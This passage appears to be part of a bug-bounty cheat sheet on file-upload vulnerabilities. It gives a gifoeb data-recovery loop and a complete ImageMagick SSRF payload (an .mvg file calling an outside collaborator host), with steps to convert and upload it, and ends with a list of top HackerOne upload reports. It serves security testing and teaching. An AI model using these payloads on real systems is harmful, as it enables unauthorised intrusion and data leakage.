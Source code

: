 ```
	 using modified Image files.
5. Server will return different pixel files. Download this file.
6. Save and recover the pixel files.

	for p in previews/*; do
    ./gifoeb recover $p | strings;
	done

7. More details here <https://github.com/neex/gifoeb>

########################### Another Different method #############################

Reference : <https://www.exploit-db.com/exploits/39767> , <https://hackerone.com/reports/135072>

1. Find Upload functionality.
2. Make a file with .mvg extension and add below code in it.

push graphic-context
viewbox 0 0 640 480
fill 'url(<http://example.com/>)'
pop graphic-context

Here example.com can be your burp collab url or your site were you can receive HTTP request.
3. Now use below command

convert ssrf.mvg out.png

4. Upload the image and see if you received http request.

Find ready made and more payloads here: <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik>

```
# Top Upload reports from HackerOne:

1. [Remote Code Execution on www.semrush.com/my_reports on Logo upload](https://hackerone.com/reports/403417) to Semrush - 792 upvotes, $0
2. [Webshell via File Upload on ecjobs.starbucks.com.cn](https://hackerone.com/reports/506646) to Starbucks - 673 upvotes, $0
3. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 412 upvotes, $1000
4. [Unrestricted file upload on [ambassador.mail.ru] ](https://hackerone.com/reports/854032) to Mail.ru - 404 upvotes, $3000
5. [[ RCE ] Through stopping the redirect in /admin/* the attacker able to bypass Authentication And Upload Malicious File](https://hackerone.com/reports/683957) to Mail.ru - 340 upvotes, $0
6. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/808862) to Visma Public - 268 upvotes, $250
7. [SSRF  leaking internal google cloud data through upload function [SSH Keys, etc..]](https://hackerone.com/reports/549882) to Vimeo - 249 upvotes, $0
8. [Arbitrary File Upload to Stored XSS](https://hackerone.com/reports/808821) to Visma Public - 245 upvotes, $250
9. [Unrestricted File Upload Leads to RCE on mobile.starbucks.com.sg](https://hackerone.com/reports/1027822) to Starbucks - 225 upvotes, $0
10. [Admin Management - Login Using Default Password - Leads to Image Upload Backdoor/Shell](https://hackerone.com/reports/699030) to Razer - 199 upvotes, $200
11. [External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing](https://hackerone.com/reports/1062888) to TikTok - 139 upvotes, $2727
12. [Unrestricted file upload in www.semrush.com \> /my_reports/api/v1/upload/image](https://hackerone.com/reports/748903) to Semrush - 124 upvotes, $0
13. [User can upload files even after closing his account](https://hackerone.com/reports/1020371) to Basecamp - 114 upvotes, $0